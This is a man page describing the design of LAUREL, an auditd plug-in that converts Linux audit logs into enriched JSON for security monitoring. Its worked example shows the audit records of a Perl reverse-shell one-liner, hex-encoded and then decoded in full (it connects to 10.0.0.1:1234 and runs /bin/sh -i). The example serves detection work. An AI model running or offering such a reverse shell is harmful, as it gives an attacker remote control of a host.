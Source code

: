 ```yaml
---
title: laurel - About
section: 7
header: System Administration Utilities
footer: laurel 0.5.5
---
```


# NAME
laurel-about - High-level description of `laurel(8)` design, rationale, features

# DESCRIPTION

## Problem statement

While logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring, the log format is not well-suited for at-scale analysis in a SIEM. 

### Format issues

- All non-trivial events are split across multiple lines that have to be joined together using a message identifier, but current search-centric log analysis systems are quite limited when it comes to join operations.
- Files and program executions are logged via `PATH` and `EXECVE` elements. The character set for strings is a limited subset of ASCII no escaping mechanism exists: If a string contains bytes that have special meaning in the format (even space or quote characters), the entire string is hex-encoded.
- Argument lists are preserved in `EXECVE` records, but with an `a0="…"`, `a1="…"`, `a2="…"`, `a3="…"` naming scheme, they are not easily accessible.
- Long command lines may be spread across multiple `EXECVE` event lines.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values.

### Missing context

Most audit events are based on either system calls or file operations. Whether or not some suspicious actions should be considered harmful, largely depends on the context in which it takes place. For example, one would not expect most web applications to use `netcat` to connect to hosts on the Internet, but an administrator who is logged and over SSH who uses `netcat` to debug network issues should raise fewer suspicions. Unfortunately, the only context that can be added for Linux audit events "keys" using the `-k` parameter of `auditctl(8)`.

### Example

Spawning a simple Perl reverse-shell one-liner creates the following 7-line audit log entry that nicely demonstrates some of these  shortcomings:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

## Solution

In addition to (or instead of) writing log files, `auditd(8)` can pass log lines to one or multiple plug-ins for further processing, see `auditd-plugins(5)`. `laurel(8)` is intended to be run as such a plug-in. It reads the audit logs from standard input, parses them, and writes a modified form of the audit log to a different log file.

### Output format

Log records carrying the same event ID (the `msg=audit(TIME:SEQUENCE):` part) are collected into coherent events and output as a JSONlines-based log format. Most importantly, hex-encoded strings are output as regular JSON strings. [RfC8259] mandates that "text exchanged between systems that are not part of a closed ecosystem MUST be encoded using UTF-8", therefore any bytes or byte sequences that are not valid UTF-8 are percent-encoded as described in [RfC3986]. Numbers are parsed as decimal, octal, or hexadecimal values and output in an unambiguous format. List data (`SYSCALL.{a0 … a3}` and `EXECVE.a*`) are turned into JSON arrays. `PROCTITLE.proctitle` is split at NULL bytes and transformed into a list.

[RfC8259]: https://datatracker.ietf.org/doc/html/rfc8259 'The JavaScript Object Notation (JSON) Data Interchange Format'

[RfC3986]: https://datatracker.ietf.org/doc/html/rfc3986 'Uniform Resource Identifier (URI): Generic Syntax'

### Structure

Every audit log line produced by _LAUREL_ is one single JSON object consisting of key/value pairs that contains at least an `ID` field.

- `SYSCALL`, `EXECVE`, `CWD`, `PROCTITLE` fields point to single JSON objects.
- `PATH`, `SOCKADDR` fields point to lists of JSON objects.

Every other kernel-produced audit message not mentioned above results in field pointing to a list of JSON objects. Details may change after the list of kernel audit message types has been reviewed.

### Encoding of invalid UTF-8 strings and binary data

- Most byte values that represent printable ASCII characters are reproduced as-is (but are subject to JSON string escaping rules).
- Bytes that map to non-printable ASCII characters (less than 32/0x20; 127/0x7f) are percent-encoded.
- Byte values that map to `%` (37/0x25) and `+` (42/0x2b) are percent-encoded.
- Byte values outside of the ASCII range (greater than 127/0x7f) are reproduced as-is if they are part of a valid UTF-8 sequence. Otherwise, they are percent-encoded.

Handling of special Unicode characters may change in the future.

### Translation / Enrichment

If `auditd(8)` has been configured with `log_format=ENRICHED`, it translates some numeric values in the original audit data to strings. Per convention, it adds translated information using all-caps versions of the keys. For example, 

    arch=c000003e syscall=59 uid=0
	
get translated to

    ARCH=x86_64 SYSCALL=execve UID="root"

by `auditd(8)`. All information that is added to records by `laurel(8)`  follows the same convention, i.e. keys are turned into all-caps. While `laurel` can be configured to perform the same translations as `auditd(8)`, it can perform other enrichments, including interpreted scripts, collecting specific environment variables, or container information for processes that are run within container environments.

### Adding Context: Process Relationships, Labels

While processing audit records `laurel(8)` tracks processes and remembers `comm`, `exe`, and the event ID associated with the latest `execve` event of a process. Processes that are tracked can be assigned labels through various mechanisms and those labels can optionally be propagated to child processes.

Mechanisms by which labels can be assigned include:
- using the key from an audit event (the `-k` option of `auditctl(8)`)
- regular expression applied to the executable path (`SYSCALL.exe` field)
- regular expression applied to the script path (`SYSCALL.SCRIPT` field, enriched)

The process tracking information can be used to enrich fields containing process ids, including `SYSCALL.{pid, ppid}` and `OBJ_PID.opid` associated with `ptrace` attach or `kill` syscalls.

### Volume reduction: Filtering out events

To reduce the high volume of events, it is possible to filter out events by key or by process label. Events that are filtered are still used for process tracking.

### Example

The log lines from the Perl reverse shell execution above are processed by `laurel(8)` into the following JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

## Audit rule set advice

For process tracking to work properly, the kernel should be configured to log all `execve`-like calls and all `fork`-like for processes that are expected to ose `fork` without `execve`, e.g. shells:
```
-a exit,always -F arch=b32 -S execve,execveat -F success=1
-a exit,always -F arch=b64 -S execve,execveat -F success=1

-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
# …
```
If the `fork` calls are not needed in the log file, they can be filtered out by assigning a key to those rules in the audit ruleset and adding this key to `filter.filter-keys`.

Note that older versions of auditd may not understand all the syscalls. In those cases, it may be necessary to substitute the syscall numbers for the ruleset.

# SEE ALSO
`laurel(8)`, `auditd(8)`, `audit.rules(7)`

# AUTHORS
- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
